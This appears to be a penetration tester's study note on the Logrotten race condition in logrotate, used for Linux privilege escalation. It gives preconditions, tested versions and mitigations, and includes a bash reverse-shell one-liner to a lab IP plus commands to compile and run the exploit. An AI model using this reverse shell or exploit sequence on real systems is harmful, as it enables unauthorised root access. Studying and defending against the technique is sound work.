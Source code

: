 # Logrotten

`logrotate` is used in manage logging for Linux - [[Linux-Logging]].  Unfortunately, `logrotate` is prone to a race condition after renaming the log file:
- If logrotate is executed as root, with option that creates a file ( like create, copy, compress, etc.) and the user is in control of the log file path, it is possible to abuse a race-condition to write files in ANY directories.
- An attacker could elevate his privileges by writing reverse-shells into directories like `/etc/bash_completion.d/`.

[GitHub - Whotwagner: Logrotten exploit](https://github.com/whotwagner/logrotten)
Precondition for privilege escalation
-  `logrotate` has to be executed as root
- The `LOGPATH` needs to be in control of the attacker
- Any option that creates files is set in the `logrotate` configuration

Tested versions
- Debian GNU/Linux 11 (bullseye)
- Debian GNU/Linux 9.5 (stretch)
- Amazon Linux 2 AMI (HVM)
- Ubuntu 18.04.1
- `logrotate` 3.8.6
- `logrotate` 3.11.0
- `logrotate` 3.15.0
- `logrotate` 3.18.0

rev_shell.sh
```bash
#!/bin/bash

bash -i >& /dev/tcp/10.10.10.10/8443 0>&1 
```
Compile, `chmod` and execute
```bash
gcc -o logrotten logrotten.c 
chmod +x rev_shell.sh logrotten
echo pwn >> /home/reader/backups/access.log; ./logrotten /home/reader/backups/access.log -p rev_shell.sh 
```

#### Mitigation:

- make sure that `LOGPATH` is owned by root
- use option "`su`" in `logrotate.cfg`
- use `selinux` or `apparmor`

## References

[HTB Academy Logrotate](https://academy.hackthebox.com)
[GitHub - Whotwagner: Logrotten exploit](https://github.com/whotwagner/logrotten), references:
- [https://tech.feedyourhead.at/content/details-of-a-logrotate-race-condition](https://tech.feedyourhead.at/content/details-of-a-logrotate-race-condition) - deadlink
- [https://tech.feedyourhead.at/content/abusing-a-race-condition-in-logrotate-to-elevate-privileges](https://tech.feedyourhead.at/content/abusing-a-race-condition-in-logrotate-to-elevate-privileges)
- [https://github.com/whotwagner/logrotten](https://github.com/whotwagner/logrotten)
- [https://www.ait.ac.at/themen/cyber-security/ait-sa-20190930-01/](https://www.ait.ac.at/themen/cyber-security/ait-sa-20190930-01/)
- [https://tech.feedyourhead.at/content/privilege-escalation-in-groonga-httpd](https://tech.feedyourhead.at/content/privilege-escalation-in-groonga-httpd)